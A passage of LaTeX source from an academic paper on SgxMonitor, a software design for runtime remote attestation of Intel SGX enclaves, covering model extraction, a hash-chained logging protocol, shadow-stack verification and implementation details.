%	
\includegraphics[width=\linewidth]{fig_c6/design.pdf}
%	\end{adjustbox}
%\end{figure}

Designing a runtime RA scheme that fits the SGX realm requires a re-thinking of 
standard approaches.
Classic runtime RA schemes assume having a protocol between two entities, 
called \emph{Prover} and \emph{Verifier}, respectively.
The \emph{Verifier} is considered trusted and outside of the attacker range, 
while the \emph{Prover} might be under attack. Moreover, the \emph{Prover} is 
equipped with a trusted anchor which is out of the 
attacker range as well (see Section~\ref{ssec:sgx-remote-attestation}).
In the SGX scenario, the \emph{Prover} is an enclave loaded in a 
malicious host, while the microcode (\ie CPU) plays the role of trusted anchor.
However, SGX has not been designed to validate the enclave runtime
properties. Moreover, we cannot observe the enclave behavior externally, \eg 
through Intel PT~\citep{kleen2015intel} or Intel 
LBR~\citep{7924286,9051250}.
In short, Intel did not design SGX to implement a runtime RA.
Considering the previous limitations, we propose a pure software design that 
implements a runtime RA for SGX enclaves.

To achieve the goal, we design a \emph{Prover} composed by two 
enclaves, namely \emph{target} and \emph{monitor}, respectively.
The \emph{target} enclave contains the actual \emph{secure functions}, 
communicates with the application, and can be compromised.
%\todo{FT: problem with assumptions: 1) the monitor host is 
%compromised -> then we have to ensure the monitor is not prone to memory 
%corruption errors; 2) the monitor host is trusted -> we do not need to use an 
%enclave as monitor; 3) if monitor host is compromised and monitor enclave is 
%error free -> we can put monitor and target in the same host.}
The \emph{monitor} enclave, instead, resides in a remote host out 
of the attacker range, and has the duty to validate the \emph{target} enclave 
runtime behavior.
Ideally, the \emph{target} enclave sends a stream of \emph{actions} to 
the \emph{monitor} that validates the \emph{target} integrity.
Thanks to this design, an external \emph{Verifier} can validate the runtime 
state of the \emph{target} by inquiring the \emph{monitor}.
%, it just needs to perform a standard RA with the monitor enclave, which
%can provide information about the target enclave state.
We provide an overview of our design in Section~\ref{ssec:overview}, and 
discuss other details in the rest of this section.
%sections~\ref{sec:model-exctraction}, \ref{sec:model_sgxmonitor}, 
%\ref{ssec:secure-communication-protocol}, and~\ref{sec:model-validation}.

\subsection{Overview}
\label{ssec:overview}
Figure~\ref{fig:design_sgxmonitor} illustrates the SgxMonitor design, that 
involves 
seven 
actors:
\begin{itemize}
	\item a \emph{target enclave} T, the enclave to protect against attacks 
	under the
	threat model described in Section~\ref{sec:threat-model_sgxmonitor}.
	\item a \emph{monitor enclave} M, that receives the \emph{actions} A 
	generated by T.
	\item an \emph{Application}, that interacts with T through standard SGX 
	specifications (\eg ECALL, OCALL),
	\item the \emph{Model} D, that represents the correct behavior of T.
	\item the \emph{Model Extractor}, that generates a model containing
	the correct behavior of T.
	\item the \emph{Model Verifier}, that validates the runtime status of T 
	according to A and D.
	\item a \emph{remote entity} R, that validates both software and runtime 
	integrity of T.
\end{itemize}

The design of SgxMonitor revolves around the model described in 
Section~\ref{sec:model_sgxmonitor}.
In particular, the SgxMonitor is split into two distinct phases: 
\emph{Offline 
	Enclave Analysis}, and \emph{Online Enclave Verification}. 
During the \emph{Offline Enclave Analysis}, the \emph{Model Extractor} 
implements the algorithms in Section~\ref{sec:model-exctraction} to extract the 
\emph{Model} D, that represents the correct behavior of the \emph{target 	
	enclave} T (\circled[1]).
Then, we seal D to prevent a malicious host to tamper with it (\circled[2]).
%\todo{while we describe our Model in Section~\ref{sec:model_sgxmonitor}}
During the \emph{Online Enclave Verification}, we assume that M and T are 
correctly loaded in the respective hosts.
Once T is loaded, it establishes a \emph{secure communication channel} with M 
by 
using the standard SGX RA~\citep{anati2013innovative}, as
described in Section~\ref{ssec:secure-communication-protocol} (\circled[3]).
This channel allows T to send a stream of \emph{Actions} A to M, 
while an \emph{Application} can interact with T by following standard SGX 
mechanisms (\eg ECALL, OCALL).
Finally, M uses the \emph{Model Verifier} to validate the runtime integrity 
of T by controlling A against D, as we describe in 
Section~\ref{sec:model-validation} (\circled[4]).
In the following sections, we detail each interaction described so far.

Once M correctly receives A from T, a \emph{remote entity} R can attest the 
software integrity of T through the standard SGX RA~\citep{anati2013innovative} 
(see Section~\ref{ssec:sgx-remote-attestation}). This ensures that the software 
in T has been loaded properly and is not tampered  (\circled[5]).
Since we employ the standard SGX RA, we do not provide further details.
Finally, R can validate the runtime integrity of T through a simple query 
toward M, which returns the runtime status of T, \ie \emph{trusted} or 
\emph{untrusted} (\circled[6]).


\subsection{Model Extractor}
\label{sec:model-exctraction}

\begin{algorithm}[t]
	\SetAlgoLined
	\DontPrintSemicolon
	\SetKwFunction{algo}{extractModel}
	\SetKwProg{myalg}{}{}{}
	\myalg{\algo{T}}{
		$m \gets \emptyset$\;
		\For{$f \in T.\text{instr\_functions}$}{ \label{alg:model-extractor-for}
			setSymbolicGlobalVars($T$)\; \label{alg:model-extractor-glb}
			loopAnalysis($f$)\; \label{alg:model-extractor-loop}
			setSymbolicFreeArgs($f$)\; \label{alg:model-extractor-free}
			$r \gets \text{symbolicExploration}(f)$\;			
			\label{alg:model-extractor-symex}
			\If{$r.\text{isTimeout}()$} {
				$r \gets \text{insensitiveAnalysis}(f)$\; 
				\label{alg:model-extractor-ins}
			}
			$m \gets m \cup (f, r.\text{graph\_of\_action})$\; 
			\label{alg:model-extractor-mod}
		}
		\Return $m$
	}
	\caption{Extracting model algorithm, it takes as input the target enclave 
		and returns the relative model.}
	\label{alg:model-extractor}
\end{algorithm}

The goal of the \emph{Model Extractor} is to automatically infer the 
behavior for a given enclave. A naive approach would use a symbolic 
execution~\citep{king1976symbolic} over the entire enclave.
However, this strategy does not scale for the whole code base.
Another approach would use insensitive static 
analysis~\citep{coppa2017rethinking} to extract the control-flow graphs of each 
function. However, this approach introduces impossible paths that increases the 
attacker surface.
In our scenario, we assume that the code in an enclave is not as 
complex as generic software~\citep{abadi2009control} (\eg a web-browser).
An enclave contains a relative small number of indirect call and its 
software base is given.
Therefore, we take inspiration from previous compositional 
analysis~\citep{calcagno2009compositional} that treats individual functions 
separately.
More precisely, we extract a graph of \emph{actions} for each function of the 
enclave with a combination of symbolic executions and insensitive static 
analysis.

The \emph{Model Extractor} takes as input a \emph{target enclave} T which has 
been instrumented at compilation time (Section~\ref{ssec:compilation-unit});
\ie it contains extra code that traces the \emph{actions} described in 
Section~\ref{sec:model_sgxmonitor}; and outputs a graph of \emph{actions} for 
each traced 
function in the enclave.
%The graphs of \emph{actions} are an important component our model and allow us 
%to validate the runtime behavior of T.
T is compiled without debug information, we solely rely on global symbols to 
identify the functions entry point and the global variables.
The global symbols do not contribute to the enclave measurement, thus we strip 
them out after extracting the model~\citep{intel2} 
(Section~\ref{ssec:sgx-remote-attestation}). 

Overall, the extraction algorithm is described in 
Algorithm~\ref{alg:model-extractor}. Given an instrumented \emph{target 
	enclave} T, we analyze each instrumented function separately 
(Alg.~\ref{alg:model-extractor} line~\ref{alg:model-extractor-for}).
We describe each point of the analysis in the rest of the section, while we 
formalize the model in Section~\ref{sec:model_sgxmonitor}.

\paragraph{Symbolic Global Variables (Alg.~\ref{alg:model-extractor} 
	line~\ref{alg:model-extractor-glb}).} 
Global variables might contain default concrete values that affect the symbolic 
exploration.
We mitigate this issues by setting all the global variables as unconstrained
symbolic objects. 
We repeat this operation for each function to clean the symbolic constraints 
previously set. 

\paragraph{Loop Analysis (Alg.~\ref{alg:model-extractor} 
	line~\ref{alg:model-extractor-loop}).}

%\todo{riporta un po' ovunque}
%\todo{object}
Unbounded loops can lead to infinite symbolic 
explorations~\citep{10.1007/978-3-642-36742-7_47}.
%\todo{options + challenge} ?? ok
%\todo{assumptions}
%\todo{scelta}
Since we are interested to reduce false positive alarms, we employed a 
postdomination tree~\citep{dominators} over the static control-flow-graph to 
identify the loops header in each function.
This approach is conservative and allows us to explore more execution paths, 
which is our main goal.
We set a three maximum loop interaction similarly to previous 
works~\citep{wang2009intscope}.
Our experiments show that we reach a good coverage while keeping low false 
positive.

\paragraph{Free Arguments Inferring (Alg.~\ref{alg:model-extractor} 
	line~\ref{alg:model-extractor-free}).}
%\todo{say backward slicing, conservative. Point to analysis. Intra-procedural. 
%Program dependence graph.}
Some function requires pointers as arguments (\eg structures, objects, array), 
however, current symbolic explorations do not fully handle symbolic 
pointers, that might lead to a wrong or incomplete 
exploration~\citep{coppa2017rethinking}.
Since we are interested to reduce false positive alarms, we opted for a 
conservative approach based on static backward slicing~\citep{slicing}
to identify pointers passed as function arguments.
For each free pointer, we build an unconstrained symbolic object to help 
the exploration.
%This algorithm is not meant to resolve all the possible cases, such as 
%aliasing, contexts or callbacks.
This solution allows us to achieve a good coverage in 
the majority of the case, as also shown in our experiments. We also 
introduce custom analysis to handle corner cases, which are though a 
limited number.
Finally, we deal with functions pointers by employing a conservative function 
type analysis~\citep{abadi2009control}.

\paragraph{Symbolic Exploration (Alg.~\ref{alg:model-extractor} 
	line~\ref{alg:model-extractor-symex}).}
We primary employ a symbolic exploration~\citep{king1976symbolic} to avoid 
impossible paths that, otherwise, might increase the attacker surface.
We execute the symbolic exploration after tuning the function as previously 
described.
Through the exploration, we build the graph of \emph{actions} for each 
function. 

\paragraph{Insensitive Static Analysis (Alg.~\ref{alg:model-extractor} 	
	line~\ref{alg:model-extractor-ins}).}
Since few functions of our use case experienced a symbolic execution timeout 
due to their complexity (\ie too many nested loops).
We employed a fallback approach based on an insensitive static 
analysis~\citep{sarkar2007flow} in which we traverse the static 
control-flow-graph of the function to build the graph of \emph{actions}.
These cases are rare and they are used only if the symbolic approach fails.
We measure the frequency of this case in our evaluation.

\paragraph{Building a Model (Alg.~\ref{alg:model-extractor} 	
	line~\ref{alg:model-extractor-mod}).}
The output is an association between functions and relative graph of 
\emph{actions}.
We use the latter to compose the model (Section~\ref{sec:model_sgxmonitor}) and 
to 
validate the correct enclave behavior (Section~\ref{sec:model-validation}).
Finally, we seal the output in the \emph{monitor enclave} host to avoid 
tampering.

\subsection{Secure Communication Protocol}
\label{ssec:secure-communication-protocol}

T and M exchange messages relying on a secure communication channel resilient 
against an adversarial host that may alter, eavesdrop, or forge the packets.

\paragraph{Protocol properties.}
Our protocol ensures two properties:
\begin{enumerate*}[label=(\roman*)]
	\item the host cannot tamper with the packets emitted by T;
	\item an adversary cannot alter or forge the packets already emitted even 
	if she takes control of T.
\end{enumerate*}
Note that we accept an adversary that performs a denial-of-service between T 
and M.
In this case, M considers T as untrusted after a timeout.

\paragraph{Attacks before protocol establishing.} 
Issuing the protocol requires the \emph{Application} to invoke a dedicated 
secure function of T before being able to use the its other secure functions.
We insert additional checks that ensure no other 
functionality of T is active until T and M successfully established the channel.
This design avoids an adversary to attack T before M starts monitoring it.

\paragraph{Workflow.}
The channel requires three steps to be established (\circled[3] in 
Figure~\ref{fig:design_sgxmonitor}):
\begin{enumerate*}[label=(\roman*)]
	\item T issues a standard SGX RA~\citep{anati2013innovative} with M, thus 
	ensuring a respective identity verification;
	\item M sends a secure \emph{key} K to T; and
	\item T sends the \emph{actions} to M.
\end{enumerate*}
The secure channel is shared among the threads of T, that refer to the same 
key K.
We also include a thread ID into the exchanged packets, this allows M and T to 
multiplex and demultiplex the communication.
The adoption of a shared key K avoids an adversary to use 
the technique discussed in Dark-ROP~\citep{lee2017hacking}, we provide more 
details in the next paragraphs.

The validation of the transmitted \emph{actions} relies on two algorithms, 
\texttt{emitLog()} and \texttt{verifyLog()}, that are illustrated in the
algorithms~\ref{alg:emit-log} and~\ref{alg:verify-log}, respectively.
Both \texttt{emitLog()} and \texttt{verifyLog()} use a lock to avoid
concurrency problems.
Finally, K has the same size of the packets transmitted, thus avoiding 
crypto-analysis~\citep{horstmeyer2013physical}.

T emits a new action $A$ through instrumented code.
$A$ is given as an input to \texttt{emitLog()} that encrypts and transfers it 
to M over an insecure channel.
First,  \texttt{emitLog()} creates a \emph{mac} by using an hash function $H$ 
and the concatenation of $A$ and the key K (Line~\ref{alg:emit-log:1}  
Alg.~\ref{alg:emit-log}).
Then, it generates $C$ by \emph{xor}-ing the concatenation of \emph{action} $A$ 
and \emph{mac} with the key K (Line~\ref{alg:emit-log:2} 
Alg.~\ref{alg:emit-log}).
At this point, it generates a new key K by hashing the 
current key K (Line~\ref{alg:emit-log:3} Alg.~\ref{alg:emit-log}).
Finally, the function writes $C$ into an insecure channel 
(Line~\ref{alg:emit-log:4} Alg.~\ref{alg:emit-log}).

On the other side, M relies on \texttt{verifyLog()} to decrypt and validate the 
encrypted packets $C$.
We also assume that M receives the packets in 
order.\footnote{We assume a reliable channel like TCP as in \cite{scarr}.}
First, M decrypts the pair $(A|\text{mac})$ by \emph{xor}-ing the packet $C$ 
and the key K (Line~\ref{alg:verify-log:1} Alg.~\ref{alg:verify-log}).
Then, M verifies the correctness of the packet received by independently 
computing \emph{mac}$^\prime$ (Line~\ref{alg:verify-log:2} 
Alg.~\ref{alg:verify-log}).
If \emph{mac} and \emph{mac}$^\prime$ does not agree, $C$ was tampered during 
the transmission and M sets T as untrusted (Line~\ref{alg:verify-log:4} 
Alg.~\ref{alg:verify-log}).
Otherwise, $A$ is considered correct and is processed as described in 
Section~\ref{sec:model-validation} (Line~\ref{alg:verify-log:5}  
Alg.~\ref{alg:verify-log}).
Finally, M generates the next key K similarly to T 
(Line~\ref{alg:verify-log:6} Alg.~\ref{alg:verify-log}).

\paragraph{Defense against a tampered enclave T}
Our protocol can resist against an adversary that exploits T.
In this case, the adversary may abuse a memory corruption error to 
diverge the enclave execution path.
However, we instrument the code of T such that it emits the \emph{action} 
before the enclave traverses the hijacked edge.
Therefore, the \emph{action} results already encrypted and shipped, while K has 
been altered by the hashed function.
We face three scenarios here:
\begin{enumerate*}[label=(S\arabic*)]
	\item the compromised \emph{action} reaches M, thus letting the
	latter to recognize the attack;
	\item the host drops the \emph{action} before reaching M, thus letting the 
	latter to recognize the attack after a timeout; and
	\item the adversary attempts to forge a new valid \emph{action}, however, 
	she cannot retrieve K after \texttt{emitLog()} invocation (\ie a new K is 
	produced).
\end{enumerate*}
In all these cases, M will observe an anomaly in the protocol or T 
behavior, finally setting T as untrusted.

Sharing the same key K among the threads defeats the tactic described 
in modern enclave attacks~\citep{lee2017hacking}.
In their scenario, an \emph{adversary} exploits a thread
to leak information (\ie the key K) from another thread.
In our design, leaking K forces a thread to emit an \emph{action} X 
representing the attack. Moreover, \texttt{emit()} ensures the \emph{actions} 
follows a specific order. 
Therefore, either X reaches M, thus revealing the attack; or X is 
dropped, thus showing an anomaly.

\begin{algorithm}[t]
	\SetAlgoLined
	\DontPrintSemicolon
	\SetKwFunction{algo}{emitLog}
	\SetKwProg{myalg}{}{}{}
	\myalg{\algo{A}}{
		$\text{mac} \gets H(A|K)$\; \label{alg:emit-log:1}		
		$C \gets (A|\text{mac}) \oplus K$\; \label{alg:emit-log:2}
		$K \gets H(K)$\; \label{alg:emit-log:3}
		$write(C)$\; \label{alg:emit-log:4}
	}
	\caption{Procedure used by the \emph{target} enclave to emit logs in a  
		secure fashion.}
	\label{alg:emit-log}
\end{algorithm}
\begin{algorithm}[t]
	\SetAlgoLined
	\DontPrintSemicolon
	\SetKwFunction{algo}{verifyLog}
	\SetKwProg{myalg}{}{}{}
	\myalg{\algo{C}}{
		$(A|\text{mac}) \gets C \oplus K$\; \label{alg:verify-log:1}
		$\text{mac}^\prime \gets H(A|K)$\; \label{alg:verify-log:2}
		\eIf{$\text{mac}^\prime \neq \text{mac}$} {\label{alg:verify-log:3}
			$\text{untrusted}()$\; \label{alg:verify-log:4}
		}{
			$\text{process}(A)$\; \label{alg:verify-log:5}
		}
		$K \gets H(K)$\; \label{alg:verify-log:6}
	}
	\caption{Algorithm used by the \emph{monitor} enclave to verify the 
		logs 
		emitted through \emph{emitLog()} described in 		
		Algorithm~\ref{alg:emit-log}.}
	\label{alg:verify-log}
\end{algorithm}


\subsection{Model Verifier}
\label{sec:model-validation}

The \emph{Model Verifier} receives a stream of \emph{actions} from the 
\emph{target enclave} T.
Our validation algorithm ensures that the received \emph{actions} match the 
\emph{Model} D. 
Moreover, we implement a \emph{remote shadow stack} to ensure a correct 
function invocation and to handle recursions~\citep{scarr}.
To explain the validation, we recall the example illustrated in  
Figure~\ref{fig:running-example}.
Moreover, we assume the \emph{Model Verifier} receives a 
stream of \emph{actions} that can be split in three transactions as follow:
\begin{align*}
P_1 &= (\text{B}, 6, 1) \rightarrow (\text{E}, 7, 16) \rightarrow (\text{G}, 
16, H_L),\\
P_2 &= (\text{C}, 18, H_L),\\
P_3 &= (\text{E}, 19, 8) \rightarrow (\text{B}, 6, 1) \rightarrow (\text{E}, 7, 
16) \rightarrow (\text{G}, 16, H_L).
\end{align*}
The transactions $P_1$, $P_2$, and $P_3$ adhere to the definition in
Section~\ref{ssec:transaption-model}, \ie they are a sequence of \emph{generic 
	actions} (\ie type B and E) that terminates with a \emph{stop} one (\ie 
	type G 
and C). 
We also consider as a valid transaction $P_2$, which does not contain 
\emph{generic actions}.

%In a real scenario, the shadowstack contains the function traversed in the 
%rRts 
%to reach \texttt{secure\_function()}.
%Here, however, we consider an empty shadow stack for sake of simplicity.
At the beginning, we assume a \emph{Model Verifier} with an initial state as 
$(\emph{in-usage}, \oslash, \oslash)$ because the control is already in the 
enclave but no structure has been used yet.
Moreover, we assume an empty \emph{shadow stack}, that we indicate as $[]$.
In this case, the \emph{Model Verifier} uses the graph of \emph{actions} of 
\texttt{fun()} and tries to match it with the transaction $P_1$.
The first \emph{action} of $P_1$ is $(\text{B}, 16, 1)$, that is the 
for-loop entrance.
%Then, we observe $(\text{E}, 7, 16)$ and recognizes a function call to 
%\texttt{add()} due to the \texttt{dst} 
%address; 
Then, we observe $(\text{E}, 7, 16)$, that represents a function call to 
\texttt{add()} due to the \texttt{dst} address; 
\ie the first instruction of the \texttt{add()} function is at line $16$.
At this point, we do two operations:
\begin{enumerate*}[label=(\roman*)]
	\item push into the \emph{shadow stack} the pair $(\texttt{fun}, (\text{E}, 
	\oslash, 8))$, whose second element is the first instruction to execute 
	once \texttt{add()} returns (see Figure~\ref{fig:running-example-graph}); 
	and 
	\item use the graph of \emph{actions} of \texttt{add()} to validate further 
	\emph{actions}.
\end{enumerate*}
In particular, a new frame $(\texttt{fun}, (\text{E}, \oslash, 8))$ is pushed 
into the \emph{shadow stack} as follow:
$$
[] \rightarrow [(\texttt{fun}, (\text{E}, \oslash, 8))].
$$
Next, we observe $(\text{G}, 16, H_L)$, which is a \emph{stop action} that 
terminates $P_1$.
$(\text{G}, 16, H_L)$ also generates a new value of \texttt{L}, thus altering 
the enclave state as follow:
$$
(\emph{in-usage}, \oslash, \oslash) \rightarrow (\emph{in-usage}, H_L, G).
$$

Now, the \emph{Model Verifier} receives $P_2$ and observes only $(\text{C}, 18, 
H_L)$, that consumes the previous structure generated and alters the states as 
follow:
$$
(\emph{in-usage}, H_L, G) \rightarrow (\emph{in-usage}, \oslash, C).
$$
If $P_2$ contained a different \emph{stop action}, \eg $(\text{C}, 18, H_X)$, 
the \emph{Model Verifier} would notice that $H_X \neq H_L$, thus recognizing 
an attempt of T to consume (\ie restore) a wrong structure. As consequence 
of such discrepancy, T will turn untrusted.

The last transaction $P_3$ is processed. The \emph{Model Verifier} 
observes $(\text{E}, 19, 8)$, that is the combination of $(\text{E}, \oslash, 
8)$, already in the \emph{shadow stack}, and $(\text{E}, 19, \oslash)$, which 
is the 
last \emph{action} for \texttt{add()} (see 
Figure~\ref{fig:running-example-graph}).
It, thus, compares the \texttt{src} and \texttt{dst} addresses
of the runtime action $(\text{E}, 19, 8)$ with the two \emph{actions} 
$(\text{E}, \oslash, 8)$ and $(\text{E}, 19, \oslash)$.
This ensures that \texttt{add()} is returning to the correct location, and 
the frame $(\texttt{fun}, (\text{E}, \oslash, 8))$ is popped out the 
\emph{shadow stack} as follows:
$$
[(\texttt{fun}, (\text{E}, \oslash, 8))] \rightarrow [].
$$
In case the return address is corrupted, the \emph{shadow stack} does not 
match, 
\eg we receive $(\text{E}, 19, X)$ that differs from $(\text{E}, \oslash, 8)$,
as a consequence, the \emph{Model Verifier} sets T as untrusted.
The remaining \emph{actions} of $P_3$ lead again through the for-loop and follow
the same verification phase.
%Finally, the \emph{action} $(\text{B}, 8, 0)$ matches the next 

\section{Implementation}
\label{sec:implementation}

Here, we provide technical details about SgxMonitor implementation: the 
\emph{Compilation Unit} 
(Section~\ref{ssec:compilation-unit}), the \emph{Model 
	Extractor} (Section~\ref{ssec:model-generation}), and the 
\emph{secure communication channel} (Section~\ref{ssec:monitor-target-channel}).

\subsection{Compilation Unit}
\label{ssec:compilation-unit}

The \emph{Compilation Unit} takes as input the \emph{target enclave} source code
and emits the instrumented enclave T.
The unit is implemented as an LLVM pass for the version $9$ (367 LoC) and a 
modified version of Clang $10$ that instruments virtual pointer assignments (15 
LoC added).
In the link phase, we link T with an instrumented SGX SDK to trace specific 
parts of the code, \eg
in \texttt{do\_ocall} and \texttt{asm\_oret} to handle 
\texttt{ocall\_context} generation/consumption; and \texttt{enter\_enclave}
to trace the entrance/exit from the enclave.
We opted for this solution because Intel does not officially support the 
compilation of the SGX SDK with Clang~\citep{sgxclang}.
We based the instrumented SGX SDK on the version $2.6$.

In this process, we also include an extra secure function that issues the 
\emph{secure communication channel}, and extra checks that avoid the 
interaction between T and the \emph{Application} before the channel is 
established (see Section~\ref{ssec:secure-communication-protocol}).


\subsection{Model Extractor}
\label{ssec:model-generation}

The \emph{Model Extractor} is based on angr version $8.18$ and implements the 
algorithms described in Section~\ref{sec:model-exctraction}.
We use PyVex~\citep{shoshitaishvili2015firmalice}, the intermediate 
representation of angr, to navigate the static CFG of the 
functions, and angr symbolic engine to extract the graphs of \emph{actions}.
The \emph{Model Extractor} is composed by $8416$ LoC in total.

%\begin{itemize}
%	\item[X] Instrumentation: LLVM pass on v9.0.0.
%	\item[X] Clan version 10.0.0 modified to trace vptr assignment
%	\item[X] Angr Version: 8.19.10.30 from pip
%	\item[X] SGX SDK version 2.6
%\end{itemize}


%\begin{figure}[t]
%	\centering
%	
\includegraphics[width=0.9\linewidth]{fig_c6/model-generator.pdf}
%	\caption{SgxMonitor model generator architecture.}
%	\label{fig:model-generator}
%\end{figure}

\subsection{Secure Communication Channel}
\label{ssec:monitor-target-channel}

The communication between the \emph{target enclave} T and the \emph{monitor 
	enclave} M is implemented by combining a TCP connection and a switchless 
mechanism~\citep{tian2018switchless}.
T writes encrypted actions (see 
Section~\ref{ssec:secure-communication-protocol}) into a ring-buffer that 
resides in the untrusted host.
The buffer is then flushed into a TCP socket that connects T and M.
On the M side, another ring-buffer feeds the \emph{Module Verifier}.
We employ this design to reduce context switch 
delays~\citep{tian2018switchless}.

To implement the functions \texttt{emitLog()} and \texttt{verifyLog()}, we use
the \emph{sha256} implementation provided by Intel SGX SDK.
We can improve the efficiency adopting other
secure functions such as the Intel SHA extension~\citep{gulley2013intel} or 
Blake2~\citep{aumasson2013blake2}.

%- I use a TCP socket + switchless to reduce context-switch delay.

%- I use sha256 as hash function, in future it is possible to use the hardware 
%version

\section{Evaluation}
\label{sec:evaluation}

We design our evaluation following the guidelines described 
in~\citep{van2019sok} to avoid benchmarking flaws.
Our evaluation revolves around two main questions:
\begin{enumerate*}[label=(\textbf{RQ\arabic*})]
	\item can I use SgxMonitor in a \emph{real scenario}?
	\item \emph{what} and \emph{how} can SgxMonitor protect me?
\end{enumerate*}
We answer \textbf{RQ1} in Section~\ref{ssec:usage-evaluation}.
